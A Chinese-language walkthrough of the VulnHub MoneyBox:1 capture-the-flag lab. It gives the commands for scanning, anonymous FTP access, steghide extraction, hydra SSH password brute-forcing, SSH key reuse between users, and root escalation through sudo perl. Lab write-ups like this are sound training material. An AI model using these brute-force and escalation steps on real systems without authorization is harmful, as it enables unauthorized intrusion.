

## 复盘*

## 靶机地址

[MoneyBox: 1 ~ VulnHub](https://www.vulnhub.com/entry/moneybox-1,653/)


## 信息收集


### 主机探活

```
arp-scan -l --interface=eth1
```


确定靶机ip：192.168.56.141


### 扫描目标主机的开放端口

```
nmap -sS -sV -p- -Pn 192.168.56.141
```


开放了：

- 21 ftp服务
- 22 ssh服务
- 80 http服务


### 利用CTFEnum扫描

```
CTFEnum 192.168.56.141
```


扫描结果可知：FTP服务允许匿名登录，且存在trydofind.jpg文件


### 匿名登录ftp服务，并将文件保存至本地

```
lftp 192.168.56.141 -u anonymous
```


### 利用steghide扫描该jpg文件



存在隐写，尝试免密提取失败


### 访问192.168.56.141


无关键信息


### 扫描网站目录

```
dirsearch -u 192.168.56.141
```


存在：blogs目录


### 访问blogs


查看源码


提示查看目录：S3cr3t-T3xt


查看源码


### 利用steghide提取信息

```
steghide --extract -sf trytofind.jpg
```


成功提取data.txt文件


### 查看data.txt文件


提示用户为renu，弱口令密码


### 利用hydra爆破ssh服务

```
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.141
```


得到用户密码：

```
renu：987654321
```


## 提权


登录ssh服务


### 得到第一个flag

```
ls -al
cat user1.txt
```


### 尝试sudo -l

```
sudo -l
```


无结果


### 进入lily家目录

```
cd /home/lily
ls -al
```


发现user2.txt文件可读


### 拿到第二个flag

```
cat user2.txt
```


### 查看.ssh文件夹

```
ls -al
cat authorized_key
```


发现存在renu的公钥，即renu可以实现免密登录lily


### 尝试ssh免密登录

```
ssh lily@localhost 
```


### 执行sudo -l

```
sudo -l
```


### perl提权

```
sudo perl -e 'exec "/bin/bash"'
```


### 得到最后一个flag

```
cd /root
ls -al
cat .root.txt
```

